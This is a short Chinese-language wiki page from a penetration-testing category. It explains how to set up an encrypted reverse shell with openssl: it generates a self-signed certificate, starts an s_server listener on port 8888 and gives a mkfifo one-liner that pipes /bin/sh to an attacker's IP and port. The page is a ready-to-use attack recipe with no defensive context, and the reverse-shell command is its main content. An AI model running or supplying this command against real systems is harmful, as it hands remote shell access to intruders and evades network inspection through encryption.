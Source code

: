 <languages  />

<translate>

生成自簽名證書
--------------

</translate>

    openssl req -x509 -newkey rsa:2048 -keyout key.pem -out cert.pem -days 365 -nodes

<translate>

服務端監聽8888端口
------------------

</translate>

    openssl s_server -quiet -key key.pem -cert cert.pem -port 8888

<translate>

Linux下使用mkfifo進行反彈shell
------------------------------

</translate>

    mkfifo /tmp/s; /bin/sh -i < /tmp/s 2>&1 | openssl s_client -quiet -connect Your ip:Your port> /tmp/s; rm /tmp/s

[Categories:滲透測試資料](Categories:滲透測試資料 "wikilink")